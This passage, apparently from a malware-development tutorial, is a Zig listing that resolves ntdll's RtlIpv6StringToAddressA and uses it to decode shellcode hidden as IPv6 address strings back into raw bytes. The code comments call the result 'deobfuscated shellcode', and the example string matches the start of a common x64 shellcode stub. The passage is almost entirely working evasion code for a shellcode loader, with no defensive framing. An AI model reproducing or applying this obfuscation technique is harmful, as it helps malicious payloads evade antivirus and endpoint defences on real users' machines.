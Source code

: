 ```zig title="main.zig"

    // Load the NTDLL library using wide string
    const ntdll_module = kernel32.GetModuleHandleW(ntdll_w);
    if (ntdll_module == null) {
        std.debug.print("[!] GetModuleHandle Failed With Error : {}\n", .{kernel32.GetLastError()});
        return error.GetModuleHandleFailed;
    }

    // Get the address of RtlIpv6StringToAddressA function
    const rtlIpv6StringToAddressA_ptr = kernel32.GetProcAddress(ntdll_module.?, "RtlIpv6StringToAddressA");
    if (rtlIpv6StringToAddressA_ptr == null) {
        std.debug.print("[!] GetProcAddress Failed With Error : {}\n", .{kernel32.GetLastError()});
        return error.GetProcAddressFailed;
    }

    // Cast the function pointer to the correct type
    const rtlIpv6StringToAddressA: *const fnRtlIpv6StringToAddressA = @ptrCast(rtlIpv6StringToAddressA_ptr);

    // Calculate the size of the buffer needed (number of IPv6 addresses * 16 bytes each)
    const bufferSize = ipv6Array.len * 16; // IPv6 addresses are 16 bytes each

    // Allocate memory for the deobfuscated shellcode
    const buffer = try allocator.alloc(u8, bufferSize);
    errdefer allocator.free(buffer);

    // Using a raw pointer to keep track of our current position
    var tmpBuffer: [*]u8 = buffer.ptr;

    // Deobfuscate each IPv6 address
    for (ipv6Array) |ipv6Address| {
        var terminator: PCSTR = undefined;

        // Convert the IPv6 string to bytes
        const status = rtlIpv6StringToAddressA(ipv6Address, &terminator, tmpBuffer);

        // Check if the status is not SUCCESS (0)
        if (status != NTSTATUS.SUCCESS) {
            std.debug.print("[!] RtlIpv6StringToAddressA Failed At [{s}] With Error 0x{X:0>8}\n", .{ ipv6Address, @intFromEnum(status) });
            return error.RtlIpv6StringToAddressFailed;
        }

        // Increment tmpBuffer by 16 bytes for the next address
        // Fixed version using pointer arithmetic
        tmpBuffer = @as([*]u8, @ptrFromInt(@intFromPtr(tmpBuffer) + 16));
    }

    return .{ .buffer = buffer, .size = bufferSize };
}

pub fn main() !void {
    // Setup allocator
    var arena = std.heap.ArenaAllocator.init(std.heap.page_allocator);
    defer arena.deinit();
    const allocator = arena.allocator();

    // Example array of IPv6 addresses (shellcode encoded as IPv6)
    const ipv6_array = [_][*:0]const u8{
        "fc48:83e4:f0e8:c000:0000:4151:4150:5251",
    };
```